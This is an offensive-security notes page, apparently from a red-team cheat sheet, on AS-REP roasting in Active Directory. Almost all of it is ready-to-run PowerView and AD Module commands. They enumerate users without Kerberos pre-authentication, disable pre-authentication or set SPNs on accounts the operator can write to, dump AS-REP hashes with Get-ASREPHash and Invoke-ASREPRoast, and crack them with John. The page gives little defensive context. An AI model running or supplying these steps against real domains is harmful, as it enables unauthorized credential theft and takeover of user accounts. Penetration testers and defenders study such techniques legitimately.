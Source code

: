 # AS-REP Roasting

If a User's UserAccountControl settings have "Do not require kerberos preauthentication" enabled i.e, kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.

With sufficient rights (GenericWrite or GenericAll), kerberos preauth can be disabled forcefully as well.

## Enumerate

Enumerating accounts with Kerberos pre-authentication disabled

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
{% endtab %}
{% endtabs %}

## Disable pre-authentication

* Only if we have enough (required) access

{% tabs %}
{% tab title="PowerView" %}
```powershell
Set-DomainObject -Identity <User> -XOR @{useraccountcontrol=4194304} -Verbose
```
{% endtab %}
{% endtabs %}

## Set SPNs

With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain)

We can then request a TGS without special privileges. The TGS can then be "Kerberosated" instead of we resetting the password of the user with the GenericAll/GenericWrite rights.

{% tabs %}
{% tab title="PowerView" %}
```powershell
# Find Permissions - for example RDPUsers group
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Set SPN
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Set-ADUser -Identify <username> -ServicePrincipalNames @{Add='ops/whatever1'}
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
Remember the SPN name should be in the **form string/string** and it should be **UNIQUE across the FOREST**.
{% endhint %}

## Retrieve the hash

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-ASREPHash -UserName VPN1user -Verbose

#Enum all users with kerberos preauth disabled and request a hash
Invoke-ASREPRoast -Verbose
```
{% endtab %}
{% endtabs %}

## Crack

```powershell
john.exe --wordlist=passwords.txt asrephashes.txt
```
